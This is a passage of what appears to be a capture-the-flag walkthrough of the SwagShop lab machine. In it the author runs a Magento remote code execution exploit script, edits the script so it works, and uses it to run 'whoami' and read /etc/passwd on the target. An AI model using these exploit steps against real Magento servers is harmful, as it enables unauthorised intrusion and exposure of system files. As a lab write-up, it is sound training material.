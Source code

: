 ![](./IMG/30.png)
- Execute it to show the user 
```
python magentoRCE2.py http://swagshop.htb whoami 
```
- It shows error like following 
```
machinize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```
![](./IMG/31.png)
- According to the error message, I checked the exploit code and comment out the following line
- I think the error is caused by the username was added twice, and it might cause some duplicate or conflict.
```
br.form.new_control('text', 'login[username]', {'value': username})
```
![](./IMG/32.png)
- Comment it out.
- Then execute it again, it success get the current user 
```
python magentoRCE2.py http://swagshop.htb whoami 
```
![](./IMG/33.png)
- I also tried the following command to get more information 
- Read passwd file 
```
python magentoRCE2.py http://swagshop.htb "cat /etc/passwd"
```